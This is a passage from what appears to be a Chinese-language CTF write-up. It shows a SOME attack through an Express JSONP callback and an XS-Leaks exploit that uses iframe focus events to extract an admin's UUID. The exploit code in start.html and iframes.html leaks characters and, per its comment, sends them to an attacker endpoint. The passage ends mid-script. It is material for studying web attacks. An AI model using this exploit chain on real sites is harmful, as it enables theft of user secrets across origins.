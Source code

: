 对于 express 的 jsonp callback，它会删除一些特殊字符比如 `()`，但 `[]` 以及dot 还能使用。

```js
/**/ typeof foo.bar[neko] === 'function' && foo.bar[neko]({"success":false,"error":"No post found with that id"});
```

## XsLeaks

通过 SOME attack 可以获取到 admin home 上的 uuid 内容，但还需要考虑的是如何外带。

第一种方法是 xsleaks。

首先打开 admin home 页面，然后打开 uuid 字符数 (17) 个同源 iframe 的 iframes 页面，每个 iframe 的 name 对应着一个字符。

在 attack 页面逐位获取 uuid 字符，然后由于同源的可操作性，调用 callback 操作 iframes 页面上的 iframe，相应字符的 iframe 打上 `focus` 标记，其中有一个 check 一直循环检测页面的 focus 情况，一旦有 active 的 iframe 便将该 name 存进 result，最后在这个页面发出跨域请求。

感觉有点麻烦，实际确实麻烦。。。因为除了 xsleaks 的时间需要合理控制，题目的 bot 只有 15 s 的时间限制，这么短的时间对于一次 xsleaks 来说显然不够，只能分段获取，然后拼成整个 uuid。

`start.html` :
```html
<script>
    iframes = open(`/iframes.html`);
    location.replace("http://localhost:12345/");
</script>
```

`iframes.html` :
```html
<body>
    <a id=focusme href=#>sth</a>
    <script>
        const sleep = d => new Promise(r => setTimeout(r, d));
        alphabet = "0123456789abcdef-"

        //create iframes
        for (var i = 0; i < alphabet.length; i++) {
            iframe = document.createElement("iframe");
            iframe.name = alphabet[i];
            iframe.src = "http://localhost:12345/";
            document.body.appendChild(iframe);
        }

        //array for found characters
        hovered = []

        const main = async () => {
            // every 0.075 secs check for iframes' onfucus event
            setInterval(() => {
                p = document.activeElement.name
                if (p) {
                    // if there's focus on an iframe -- add its character to hovered and change the focus
                    hovered.push(p);
                    document.getElementById("focusme").focus();
                }
            }, 75)

            await sleep(2000);
            one = open(`/one.html`);
            await sleep(2000 + 150);

            // every 500 secs send found characters to our server endpoint /ret/:characters
            setInterval(() => {
                res = hovered.join("");
```